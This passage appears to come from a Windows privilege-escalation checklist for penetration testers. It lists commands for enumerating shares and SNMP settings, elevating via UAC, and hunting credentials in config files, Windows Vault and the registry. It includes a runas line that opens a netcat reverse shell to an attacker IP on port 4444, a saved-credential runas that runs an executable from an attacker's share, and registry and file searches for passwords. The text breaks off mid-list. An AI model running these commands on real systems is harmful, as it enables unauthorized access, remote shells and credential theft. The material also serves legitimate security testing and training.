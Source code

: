     ```
     net share
     powershell Find-DomainShare -ComputerDomain domain.local
    ```
*   [ ] &#x20;SNMP config

    ```
     reg query HKLM\\SYSTEM\\CurrentControlSet\\Services\\SNMP /s
     Get-ChildItem -path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\SNMP -Recurse
    ```

#### Credential Access

*   [ ] &#x20;Go from **medium mandatory level** to **high mandatory level**

    ```
     # using powershell
     powershell.exe Start-Process cmd.exe -Verb runAs
    ```
*   [ ] &#x20;**TRY KNOWN PASSWORDS!**

    ```
     # check also with runas
     C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
    ```
*   [ ] &#x20;Creds from config files (Try different words e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):

    ```
     dir /s /b /p *pass* == *cred* == *vnc* == *.config* == *conf* == *ini*
     findstr /si /m password *.xml *.ini *.txt
    ```
* [ ] &#x20;Creds from local DBs
*   [ ] &#x20;Creds from Windows Vault

    ```
     cmdkey /list
     # if found
     runas /savecred /user:WORKGROUP\Administrator "\\attacker-ip\SHARE\welcome.exe"
    ```
*   [ ] &#x20;Creds from Registry

    ```
     reg query HKLM /f pass /t REG_SZ /s
     reg query HKCU /f pass /t REG_SZ /s
     
     reg query HKLM /f password /t REG_SZ /s
     reg query HKCU /f password /t REG_SZ /s
     